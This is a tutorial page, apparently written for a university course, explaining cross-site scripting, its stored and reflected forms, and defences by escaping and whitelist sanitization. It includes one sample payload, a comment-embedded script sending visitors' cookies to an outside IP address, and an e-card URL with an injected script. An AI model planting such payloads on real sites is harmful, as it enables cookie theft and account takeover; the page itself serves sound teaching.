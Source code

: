 <frontmatter>
  title: Cross Site Scripting
  footer: footer.md
  head: head.md
  siteNav: mainNav.md
  pageNav: 3
</frontmatter>

{{ navbar | safe }}

<div class="website-content">

# Cross Site Scripting

Author: [Tan Wang Leng](https://github.com/nus-oss/cs3281-website/tree/master/students/AY1617S2/tanWangLeng/TanWangLeng-Resume.md)

## Overview

Cross site scripting (XSS) is a vulnerability found in websites.

Text boxes are commonly used in forms in websites to ask the user for input. For
example, blog websites may provide a text box for visitors of the blog to enter comments.

However, are commenters limited to just typing in plain text? Some websites do not
check the input, thus commenters are able to use formatting HTML tags, such
as `<b>` for bolding and `<i>` for italicizing.

```html
I <b>like</b> your blog post!
```

becomes: I **like** your blog post!

The problem arises when the commenter starts using HTML for malicious purposes. For
example, HTML also supports `<script>`, for you to write JavaScript code on the
webpage as well.

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

While visitors of the blog will only see the non-script portion of the
comments (i.e. `This is an innocent looking comment.`), the browser will not
show the script portion of the comment, because it is legal HTML (you won't see
the tags like `<b>` and `<i>` when viewing webpages, so you definitely won't see
`<script>` on the webpage).

However, the browser is **actually executing the script**, without the visitor even being aware of what's going on.

This means that any malicious users (i.e. hackers) can write a script on their comments, such that everyone that visits the website will have the script executed. The script can be malicious in nature (in our example, the script sends the cookie of the visitor to the hacker).

Therefore, the hacker has managed to add additional malicious "functionality" to the website, that is not intended by the original website developer.

> Trivia: The term "Cross Site Scripting" is actually an old term. It originally describe an attack whereby hackers write malicious JavaScript scripts on a separate website, and injects it into the victim's website, in order to steal data from the victim's website/deface the page (hence "Cross Site"). Such attacks are no longer possible today, and the modern definition of "Cross Site Scripting" includes attacks that do not need to be on a separate website to work.

## Types of Cross Site Scripting

There are no standard definitions, but there are at least two different types of
XSS:

* Persistent XSS (also known as stored XSS) - The JavaScript code gets stored in
the web server. Example: Posting a malicious JavaScript code into a blog post as
a comment. The comment gets stored in the database, and the web browser of future visitors of the
webpage will retrieve the comment from the database, resulting in execution.

* Non-persistent XSS (also known as reflected XSS) - The JavaScript code is
inserted in URL/links of website that accepts URL parameters as input. The input
is therefore not stored in a database.

An example of a non-persistent XSS attack would be an e-card website that displays an e-card to a visitor of the website. The e-card can be customised by modifying the `content` parameter of the URL:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays`

However, that also means that hackers are able to also include scripts in their e-card content. They can send this URL to victims, hoping that they will click on them, resulting in the scripts being executed:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays<script>...</script>`

## Preventing Cross Site Scripting

There are a couple of ways to prevent your website against XSS. The two most
common ways are:

* Escaping String Input: By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).

* Whitelist Sanitization: By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

## Resources

References:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 32 & 33)
(Basic description of the XSS attack taken from here)
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Stored_and_Reflected_XSS_Attacks
(Description of the two types of XSS attack taken from here)
1. http://blog.jeremiahgrossman.com/2006/07/origins-of-cross-site-scripting-xss.html
(Origin of the name "Cross Site Scripting")

Additional Reading Resources:

1. https://www.owasp.org/index.php/Testing_for_Cross_site_scripting
(How to test your website for XSS attacks)
1. https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet
(A list of possible preventions, which contains even more ways to protect your site from XSS attacks).
1. http://guides.rubyonrails.org/security.html#cross-site-scripting-xss
(In-depth discussion of how XSS attacks work, the different possible scenarios of such attacks, and possible preventive measures)
1. https://www.owasp.org/index.php/DOM_Based_XSS
(Discussion about DOM-based XSS attacks, a third possible type of XSS attacks)
1. https://excess-xss.com/
(Comprehensive coverage of *all* aspects of XSS)

Additional Resources:

1. https://github.com/OWASP/java-html-sanitizer (Java Sanitization framework)
(Implementation of HTML sanitization in Java)
1. https://github.com/rails/rails_xss
(Ruby on Rails plugin responsible for escaping String input in Ruby on Rails websites)
1. http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html
(Ruby on Rails HTML sanitization function)

</div>
